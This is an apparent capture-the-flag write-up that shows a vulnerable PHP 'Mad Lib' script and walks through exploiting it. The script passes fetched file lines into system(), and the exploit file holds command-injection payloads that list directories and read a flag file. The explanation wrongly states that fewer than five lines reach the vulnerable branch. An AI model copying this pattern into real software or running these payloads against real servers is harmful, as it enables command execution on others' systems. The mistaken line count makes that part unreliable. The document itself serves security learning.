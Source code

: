 ```php
	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
	curl_setopt($ch, CURLOPT_VERBOSE, false);
	$data = curl_exec($ch);
	curl_close($ch);
	print_r("Input: $data");
	return $data;
}

if (isset($_POST["fileLocation"])){
	$file_content = curl_get_contents($_POST['fileLocation']);
	$user_inputs = explode("\n", $file_content);
	if (count($user_inputs) < 5){
		echo "not enough for Mad Lib!";
	}
	else{
		echo "<h2>Here is your story!</h2>";
		system("echo Once upon a time, there lived a $user_inputs[0] named $user_inputs[1] who was $user_inputs[2]. This $user_inputs[0] loved $user_inputs[3] and $user_inputs[4] every day.");
	}
}
else{
	echo "Nothing to Mad Lib QAQ";
}

?>

```
Analysing this file, we can see that it accepts a POST request that contains a parameter called _fileLocation_ that is being passed to _curl_get_contents_ function as an argument. This function basically uses cURL to fetch the contents of the provided url. 
So now we know that the txt file must be hosted on a server that we will be then passing to the _fileLocation_ parameter. 

Next, the fetched file content must contain less than 5 lines to execute the else block. Here's the interesting part! 

> system("echo Once upon a time, there lived a $user_inputs[0] named $user_inputs[1] who was $user_inputs[2]. This $user_inputs[0] loved $user_inputs[3] and $user_inputs[4] every day.");

So system functions execute OS commands and having control over it means we can get a command injection. In this case, each one of the lines in our uploaded txt file are being directly concatenated in the system function. Note that to execute commands inside _echo_, the payload must begin with a dollar sign ($). Now let's have our txt file ready and send the appropriate request!

##### exploit.txt
```txt
$ls
$ls
$(ls /)
$(ls)
$(cat /sup3r-0bscuR3-n@m3-0f_TH3_fl4g.txt)
```

